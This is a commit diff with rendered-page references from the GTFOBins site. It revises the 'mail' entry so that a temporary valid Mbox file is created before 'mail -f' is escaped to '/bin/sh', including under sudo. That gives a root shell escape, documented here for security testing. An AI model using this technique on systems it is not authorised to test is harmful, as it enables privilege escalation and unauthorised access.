

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/mail.md, in a window 1280 px wide. Shown: the top 685 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Use valid Mbox file for mail

```diff
--- a/_gtfobins/mail.md
+++ b/_gtfobins/mail.md
@@ -1,11 +1,17 @@
 ---
 functions:
   execute-interactive:
-    - code: |
-        mail -f /etc/hosts
+    - description: This creates a valid Mbox file which may be required by the binary.
+      code: |
+        TF=$(mktemp)
+        echo "From nobody@localhost $(date)" > $TF
+        mail -f $TF
         !/bin/sh
   sudo-enabled:
-    - code: |
-        sudo mail -f /etc/hosts
+    - description: This creates a valid Mbox file which may be required by the binary.
+      code: |
+        TF=$(mktemp)
+        echo "From nobody@localhost $(date)" > $TF
+        sudo mail -f $TF
         !/bin/sh
 ---
```
